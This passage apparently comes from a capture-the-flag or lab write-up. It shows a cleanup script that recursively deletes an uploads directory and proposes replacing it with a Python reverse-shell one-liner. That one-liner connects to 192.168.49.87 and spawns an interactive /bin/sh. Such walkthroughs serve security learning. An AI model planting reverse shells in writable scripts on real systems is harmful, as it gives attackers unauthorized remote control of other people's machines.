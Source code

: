The content of the script could help us to get a reverse shell : 

```python
#!/usr/bin/env python
import os
import sys
try:
        os.system('rm -r /var/www/html/booked/uploads/reservation/* ')
except:
        print 'ERROR...'
sys.exit(0)
```

We could update the content for the following one : 
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.87",22));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

